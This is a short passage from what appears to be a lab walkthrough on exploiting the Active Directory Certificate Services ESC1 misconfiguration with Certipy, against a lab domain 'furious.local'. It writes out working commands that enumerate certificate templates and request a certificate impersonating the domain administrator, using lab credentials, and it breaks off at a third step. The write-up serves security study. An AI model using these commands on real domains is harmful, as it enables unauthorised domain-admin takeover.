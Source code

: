 <img src="Imgs/image5.png" alt="Error loading image">
---

##  Exploiting ESC1 with Certipy

### Step 1: Enumerate CA and Templates

```bash
certipy-ad find -u jack -p complex1@ -dc-ip 192.168.129.140
```

### Step 2: Request Certificate Impersonating Domain Admin

```bash
certipy-ad req -u 'jack@furious.local' -p 'complex1@' \
  -dc-ip 192.168.129.140 \
  -target furious.local \
  -ca furious-DC01-FURIOUS5-CA \
  -template Vulnerable-ESC1 \
  -upn administrator@furious.local
```

This will generate a `.pfx` file (certificate + private key) for `administrator@furious.local`.

### Step 3: Authenticate with the Certificate
